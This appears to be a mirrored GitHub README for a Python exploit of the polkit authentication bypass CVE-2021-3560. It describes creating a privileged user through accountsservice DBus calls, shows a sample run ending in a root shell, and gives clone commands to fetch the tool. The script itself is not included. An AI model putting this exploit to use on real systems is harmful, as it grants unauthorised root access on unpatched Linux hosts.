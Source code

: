 # Polkit-exploit

Privilege escalation with polkit - CVE-2021-3560

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/Almorabea](https://github.com/Almorabea) |
| Url      | [https://github.com/Almorabea/Polkit-exploit](https://github.com/Almorabea/Polkit-exploit)                                               |
| Stars    | 109                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# Polkit-exploit - CVE-2021-3560
Privilege escalation with polkit - CVE-2021-3560

# Summary 
CVE-2021-3560 is an authentication bypass on polkit, which allows unprivileged user to call privileged methods using DBus, in this exploit we will call 2 privileged methods provided by accountsservice (CreateUser and SetPassword), which allows us to create a priviliged user then setting a password to it and at the end logging as the created user and then elevate to root.

# Exploit Code Author
Ahmad Almorabea
@almorabea
http://almorabea.net

# Usage
```
test@ubuntu:~/Desktop$ python3 CVE-2021-3560.py 
**************
Exploit: Privilege escalation with polkit - CVE-2021-3560
Exploit code written by Ahmad Almorabea @almorabea
Original Exploit Author: Kevin Backhouse 
For more details check this: https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/#history
[+]Starting the Exploit 
[+] User Created with the name of ahmed
[+] Timed out at: 0.008446890996407191
[+] Timed out at: 0.008934336684707084
[+] Exploit Completed, your new user is 'Ahmed' just log into it like, 'su ahmed', and then 'sudo su' to root 
bash: cannot set terminal process group (46983): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/home/test/Desktop# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/home/test/Desktop# whoami
root
root@ubuntu:/home/test/Desktop#
```

# Demo
GUI Authentication
******
![](CVE-2021-3560-Auth-On.gif)

Terminal Authentication
******
![](CVE-2021-3560-Root.gif)

# Credit
Kevin Backhouse (https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/)



## Get the content

```
git clone https://github.com/Almorabea/Polkit-exploit
cd Polkit-exploit
```

{% embed url="https://github.com/Almorabea/Polkit-exploit" %}

<figure><img src="https://avatars.githubusercontent.com/u/13198863?v=4" alt=""><figcaption><p>Almorabea</p></figcaption></figure>

